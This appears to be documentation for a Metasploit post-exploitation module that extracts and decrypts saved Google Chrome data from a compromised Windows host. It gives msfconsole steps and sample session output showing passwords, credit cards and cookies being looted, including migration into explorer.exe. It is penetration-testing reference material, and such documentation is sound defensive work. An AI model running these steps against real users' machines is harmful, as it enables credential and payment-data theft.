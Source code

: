 ## Vulnerable Application

  This post-exploitation module will extract saved user data from Google Chrome and attempt to decrypt sensitive information.
  Chrome encrypts sensitive data (passwords and credit card information) which can only be decrypted with the **same** logon credentials. This module tries to decrypt the sensitive data as the current user unless told otherwise via the MIGRATE setting.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_chrome`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted chrome browser data in the loot files in JSON format

## Options

  - **MIGRATE** - Migrate automatically to explorer.exe. This is useful if you're having SYSTEM privileges, because the process on the target system running meterpreter needs to be owned by the user the data belongs to. If activated the migration is done using the metasploit `post/windows/manage/migrate` module. The default value is false.

  - **SESSION** - The session to run the module on.

## Extracted data

  - Web data:
    - General autofill data
    - Chrome users
    - Credit card data
  - Cookies
  - History
    - URL history
    - Download history
    - Search term history
  - Login data (username/password)
  - Bookmarks
  - Preferences

## Scenarios

  **Meterpreter session as normal user**

  ```
  [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.104:51129) at 2016-10-13 20:45:50 +0200

  msf exploit(handler) > use post/windows/gather/enum_chrome
  msf post(enum_chrome) > set SESSION 1
  SESSION => 1
  msf post(enum_chrome) > run

  [*] Impersonating token: 3156
  [*] Running as user 'user-PC\user'...
  [*] Extracting data for user 'user'...
  [*] Downloaded Web Data to '/home/user/.msf4/loot/20161013205236_default_192.168.1.18_chrome.raw.WebD_032796.txt'
  [*] Downloaded Cookies to '/home/user/.msf4/loot/20161013205238_default_192.168.1.18_chrome.raw.Cooki_749912.txt'
  [*] Downloaded History to '/home/user/.msf4/loot/20161013205244_default_192.168.1.18_chrome.raw.Histo_307144.txt'
  [*] Downloaded Login Data to '/home/user/.msf4/loot/20161013205309_default_192.168.1.18_chrome.raw.Login_519738.txt'
  [*] Downloaded Bookmarks to '/home/user/.msf4/loot/20161013205310_default_192.168.1.18_chrome.raw.Bookm_593102.txt'
  [*] Downloaded Preferences to '/home/user/.msf4/loot/20161013205311_default_192.168.1.18_chrome.raw.Prefe_742084.txt'
  [*] Decrypted data saved in: /home/user/.msf4/loot/20161013205909_default_192.168.1.18_chrome.decrypted_173440.txt
  [*] Post module execution completed
  ```

  **Meterpreter session as system**

  In this case, you should set the MIGRATE setting to true. The module will try to migrate to explorer.exe to decrypt the encrypted data. After the decryption is done, the script will migrate back into the original process.

  ```
  [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.104:51129) at 2016-10-13 20:45:50 +0200

  msf exploit(handler) > use post/windows/gather/enum_chrome
  msf post(enum_chrome) > set SESSION 1
  SESSION => 1
  msf post(enum_chrome) > set MIGRATE true
  MIGRATE => true
  msf post(enum_chrome) > run

  [*] current PID is 1100. migrating into explorer.exe, PID=2916...
  [*] done.
  [*] Running as user 'user-PC\user'...
  [*] Extracting data for user 'user'...
  [*] Downloaded Web Data to '/home/user/.msf4/loot/20161013205236_default_192.168.1.18_chrome.raw.WebD_032796.txt'
  [*] Downloaded Cookies to '/home/user/.msf4/loot/20161013205238_default_192.168.1.18_chrome.raw.Cooki_749912.txt'
  [*] Downloaded History to '/home/user/.msf4/loot/20161013205244_default_192.168.1.18_chrome.raw.Histo_307144.txt'
  [*] Downloaded Login Data to '/home/user/.msf4/loot/20161013205309_default_192.168.1.18_chrome.raw.Login_519738.txt'
  [*] Downloaded Bookmarks to '/home/user/.msf4/loot/20161013205310_default_192.168.1.18_chrome.raw.Bookm_593102.txt'
  [*] Downloaded Preferences to '/home/user/.msf4/loot/20161013205311_default_192.168.1.18_chrome.raw.Prefe_742084.txt'
  [*] Decrypted data saved in: /home/user/.msf4/loot/20161013205909_default_192.168.1.18_chrome.decrypted_173440.txt
  [*] migrating back into PID=1100...
  [*] done.
  [*] Post module execution completed
  ```
